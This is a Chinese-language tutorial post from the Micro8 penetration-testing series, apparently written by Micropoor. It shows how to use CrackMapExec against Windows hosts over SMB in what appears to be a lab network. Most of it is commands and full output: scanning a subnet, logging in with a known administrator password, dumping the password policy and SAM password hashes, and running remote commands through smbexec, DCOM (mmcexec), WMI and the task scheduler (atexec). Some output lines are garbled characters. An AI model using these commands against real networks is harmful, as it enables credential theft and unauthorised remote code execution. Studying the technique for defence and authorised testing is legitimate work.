```yaml
---
title: 93、与CrackMapExec结合攻击
date: 2019-09-21 19:07:02
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，可预防**肾结石，痛风**等。

CrackMapExec弥补了MSF4下auxiliary，scanner模块下的Command执行方式，但MSF5已解决该问题。在MSF4下，该框架针对后渗透的横向移动经常出现，虽然MSF5已解决该问题，但该框架在配合bloodhound与empire依然目前有一定优势。

安装方式：from Wiki：

### Kali：
```code
apt‐get install crackmapexec
```

但作者推荐pipenv安装：
```code
apt‐get install ‐y libssl‐dev libffi‐dev python‐dev build‐essential
pip install ‐‐user pipenv
git clone ‐‐recursive https://github.com/byt3bl33d3r/CrackMapExec
cd CrackMapExec && pipenv install
pipenv shell
python setup.py install
```

### Mac OSX：
```code
pip install ‐‐user crackmapexec
```

默认为100线程
```code
cme smb 192.168.1.0/24
SMB 192.168.1.4 445 JOHN‐PC [*] Windows 7 Ultimate 7601 Service Pack 1
x64 (name:JOHN‐PC) (domain:JOHN‐PC) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
```
![](../do/media/ebb1d4734cf101b0af75130b24dc2797.jpg)

密码策略
```code
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐pass ‐pol
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Dumping password info for domain: WIN03X64
SMB 192.168.1.119 445 WIN03X64 Minimum password length: None
SMB 192.168.1.119 445 WIN03X64 Password history length: None
SMB 192.168.1.119 445 WIN03X64 Maximum password age: 42 days 22 hours 47 minutes
SMB 192.168.1.119 445 WIN03X64
SMB 192.168.1.119 445 WIN03X64 Password Complexity Flags: 000000
SMB 192.168.1.119 445 WIN03X64 Domain Refuse Password Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Store Cleartext: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Lockout Admins: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password No Clear Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password No Anon Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Complex: 0
SMB 192.168.1.119 445 WIN03X64
SMB 192.168.1.119 445 WIN03X64 Minimum password age: None
SMB 192.168.1.119 445 WIN03X64 Reset Account Lockout Counter: 30 minutes
SMB 192.168.1.119 445 WIN03X64 Locked Account Duration: 30 minutes
SMB 192.168.1.119 445 WIN03X64 Account Lockout Threshold: None
SMB 192.168.1.119 445 WIN03X64 Forced Log off Time: Not Set 
```
![](../do/media/6caecd2d3353752952b4fa71fb5cff9c.jpg)

list hash
```code
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐sam
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Dumping SAM hashes
SMB 192.168.1.119 445 WIN03X64 Administrator:500:44efce164ab921caaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
SMB 192.168.1.119 445 WIN03X64 Guest:501:aad3b435b51404eeaad3b435b51404ee:67f33d2095bda39fbf6b63fbadf2313a:::
SMB 192.168.1.119 445 WIN03X64 SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:f4d13c67c7608094c9b0e39147f07520:::
SMB 192.168.1.119 445 WIN03X64 IUSR_WIN03X64:1003:dbec20afefb6cc332311fb9822ba61ce:68c22a11c400d91fa4f66ff36b3c15dc:::
SMB 192.168.1.119 445 WIN03X64 IWAM_WIN03X64:1004:ff783381e4e022de176c59bf598409c7:7e456daac229ddceccf5f367aa69a487:::
SMB 192.168.1.119 445 WIN03X64 ASPNET:1008:cc26551b70faffc095feb73db16b65ff:fec6e9e4a08319a1f62cd30447247f88:::
SMB 192.168.1.119 445 WIN03X64 [+] Added 6 SAM hashes to the database
```
![](../do/media/d372f49b841caef362dbced12e0a0149.jpg)

枚举组
```code
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐local‐groups
SMB 192.168.1.119 445 WIN03X64 [\*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Enumerated local groups
SMB 192.168.1.119 445 WIN03X64 HelpServicesGroup membercount: 1
SMB 192.168.1.119 445 WIN03X64 IIS_WPG membercount: 4
SMB 192.168.1.119 445 WIN03X64 TelnetClients membercount: 0
SMB 192.168.1.119 445 WIN03X64 Administrators membercount: 1
SMB 192.168.1.119 445 WIN03X64 Backup Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Distributed COM Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Guests membercount: 2
SMB 192.168.1.119 445 WIN03X64 Network Configuration Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Performance Log Users membercount: 1
SMB 192.168.1.119 445 WIN03X64 Performance Monitor Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Power Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Print Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Remote Desktop Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Replicator membercount: 0
SMB 192.168.1.119 445 WIN03X64 Users membercount: 3
```
![](../do/media/4136be4626226c3dc06862d42b2ede35.jpg)

分别支持4种执行Command，如无--exec-method执行，默认为wmiexec执行。  
* mmcexec   
* smbexec   
* wmiexec   
* atexec  

基于smbexec执行Command
```code
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method smbexec ‐x 'net user'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via smbexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S \\ ���û��ʻ�
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S Administrator Guest
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ����������ϣ�������һ����������
```
![](../do/media/751f7fd147dc4a1810d00aa1b5cde041.jpg)

基于dcom执行Command
```code
root\@John:\~\# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method mmcexec ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via mmcexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](../do/media/64443a4bd4d862023bcf82a0d8978c41.jpg)

基于wmi执行Command
```code
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method wmiexec ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via wmiexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](../do/media/f97bf667d2f2bd316cefcb12550a4845.jpg)

基于AT执行Command

目标机：无运行calc进程  
![](../do/media/9dbb8af94a4ef3de96eb1476162a3a9d.jpg)

```code
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method atexec ‐x 'calc'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via atexec
```
![](../do/media/7fdfdafcff3b66eebbcb49a359450a83.jpg)


默认采取wmiexec执行Command，参数为-x
```code
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](../do/media/49adc1d483d3df2a5c12b432c61dc00d.jpg)

枚举目标机disk
```code
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐disks
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Enumerated disks
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S C:
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S D:
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S E:
```

### 附录：
**解决出现：STATUS_PIPE_DISCONNECTED**  
![](../do/media/a7a5a32340bdb7651266594f5dd0dbc7.jpg)

改成经典

![](../do/media/cbc0c19d3ddbc53c165d217f51289e5c.jpg)

解决出现错误：UnicodeDecodeError:

升级impacket  

![](../do/media/f2f8fc124237c8317e634b28c6ff4212.jpg)

>   Micropoor
